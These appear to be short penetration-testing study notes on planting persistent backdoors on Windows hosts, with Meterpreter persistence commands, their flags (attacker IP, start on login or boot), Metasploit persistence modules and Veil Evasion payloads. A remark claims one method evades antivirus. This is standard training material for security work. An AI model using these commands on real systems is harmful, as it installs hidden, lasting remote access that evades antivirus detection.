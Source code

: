 ### Veil Evasion

Use rev_http_service, rev_tcp_service  
Can be used in place of normal backdoor  
Does not always work

---

### Meterpreter - Persistence Module

````bash
persistence -h # Help Menu
run persistence -U -i <n> -p <port> -r <ip-address>
````

**Flags**:  
-U : Start on user login  
`-i <n>` : Try to connect every n secs  
-p : Port  
-r : Attacker IP Address  
-X : Automatically start on system boot

For detecting the connection a new "Multi Handler" will have to be setup  
Issue with Approach : Easily detected by Antivirus

---

### Metasploit and Veil Evasion

````bash
use exploit/windows/local/persistence
show options
````

EXE_NAME : Name to Backdoor to show in Explorer.exe  
SESSION : Current listening session

````bash
show advanced
````

EXE::Custom : Path to our custom backdoor

````bash
exploit
````

This approach is the most robust and is not detected by antivirus software

---

Another good Persistence module that can be used without Veil Framework

````bash
use exploit/windows/local/persistence_service
````
